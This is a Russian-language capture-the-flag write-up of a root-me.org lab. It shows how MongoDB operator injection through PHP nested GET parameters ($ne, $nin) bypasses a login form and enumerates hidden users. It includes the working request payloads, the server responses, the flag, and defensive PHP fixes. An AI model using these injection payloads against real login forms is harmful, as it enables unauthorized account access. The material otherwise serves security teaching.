



## Lab: NoSQL Injection - Authentication Bypass

**Платформа:** root-me.org
**Категория:** NoSQL Injection
**Сложность:** Medium
**Дата:** 2026-07-27

---

## TL;DR
Форма авторизации (GET-параметры `login`/`pass`) уязвима к NoSQL-инъекции через операторы MongoDB. Значения параметров подставляются напрямую в запрос к MongoDB без приведения к строковому типу, что позволило передать оператор `$ne` через синтаксис вложенных PHP-массивов в имени параметра (`login[$ne]=1`) и обойти аутентификацию, войдя как `admin`. Дальнейшее исключение известных логинов через оператор `$nin` позволило найти скрытого пользователя, чей username и являлся флагом.

## Теория: NoSQL Injection через операторы MongoDB

MongoDB использует объектный (BSON/JSON) язык запросов вместо SQL. Уязвимость возникает, когда приложение строит запрос вида:
```javascript
db.users.findOne({ login: $_GET['login'], pass: $_GET['pass'] })
```
не проверяя, что `login`/`pass` — действительно строки, а не вложенные объекты. PHP автоматически разбирает квадратные скобки **в имени** GET/POST-параметра как вложенный массив:
```
login[$ne]=1   →   $_GET['login'] = ['$ne' => '1']
```
Этот массив передаётся MongoDB-драйверу как объект `{"$ne": "1"}` — то есть не буквальное значение для сравнения, а **оператор** "не равно 1". Итоговый запрос превращается в:
```javascript
db.users.findOne({ login: {"$ne": "1"}, pass: {"$ne": "1"} })
```
что означает "найти пользователя, чей login не равен '1' И пароль не равен '1'" — истинно почти для любой существующей записи. Драйвер обычно возвращает первый подходящий документ по порядку в коллекции.

**Важное отличие от SQLi:** тут нет разрыва строки кавычкой — уязвимость эксплуатируется через **подмену типа данных** (строка → объект-оператор), которую допускает нестрогая типизация PHP и MongoDB-драйвера.

## Разведка

###  Анализ формы авторизации

Цель: `GET /web-serveur/ch38/?login=&pass=`

Метод — GET, логин и пароль передаются как query-параметры. Заголовки ответа содержат `PHPSESSID`, что указывает на PHP-бэкенд.



## Эксплуатация

### Шаг 1 - Обход авторизации через $ne

Оператор перенесён в **имя** параметра — правильный синтаксис для PHP-style вложенных массивов:
```
GET /web-serveur/ch38/?login[$ne]=1&pass[$ne]=1
```

Результат — успешный вход:
```
You are connected as : admin
```



### Шаг 2 - Поиск скрытого пользователя через $nin

Раз `$ne` вернул первого пользователя по порядку в коллекции (`admin`), для поиска других записей потребовалось явно исключить уже известные логины через оператор `$nin` (не входит в список):

```
GET /web-serveur/ch38/?login[$nin][]=admin&pass[$ne]=1
```

Дальнейшее итеративное исключение найденных логинов (`admin`, затем `test`) сузило результат до единственной оставшейся записи в коллекции:

```
GET /web-serveur/ch38/?login[$nin][]=admin&login[$nin][]=test&pass[$ne]=1
```

Результат:
```
You are connected as : flag{nosqli_no_secret_4_you}
```



---

## Вывод / причина уязвимости

- Отсутствие проверки типа входных данных — приложение ожидало строку для `login`/`pass`, но PHP позволил передать вложенный массив, который MongoDB-драйвер интерпретировал как оператор запроса.
- Использование прямого пользовательского ввода в MongoDB-запросе без санитизации или явного приведения типа (`(string) $_GET['login']`).
- Отсутствие ограничения на количество возвращаемых документов и порядок их следования сделало возможным систематическое исключение известных записей (`$nin`) для обнаружения остальных пользователей в коллекции — своего рода аналог enumeration, характерный именно для NoSQL, где нет системных таблиц метаданных, как в SQL.

## Защита

```php
// Явное приведение к строке ДО передачи в запрос — блокирует любые операторы:
$login = (string) $_GET['login'];
$pass  = (string) $_GET['pass'];

$user = $collection->findOne(['login' => $login, 'pass' => $pass]);
```

Дополнительно:
- Использовать схему валидации входных данных (например, через `filter_var` с явным типом или JSON Schema), отклоняющую любые значения, кроме примитивного строкового типа, для полей `login`/`pass`.
- Применять библиотеки санитизации, удаляющие ключи, начинающиеся с `$`, из пользовательского ввода перед передачей в запрос (аналог `express-mongo-sanitize` для Node.js-стека).
- Не полагаться на нестрогую типизацию PHP при работе с NoSQL-запросами — вложенные массивы в GET/POST-параметрах должны явно проверяться и отклоняться там, где ожидается примитив.
- Ограничивать количество возвращаемых документов (`limit(1)`) и не показывать пользователю поле `login` найденной записи напрямую в ответе — само по себе раскрытие username в тексте ответа облегчило эксплуатацию enumeration-подхода.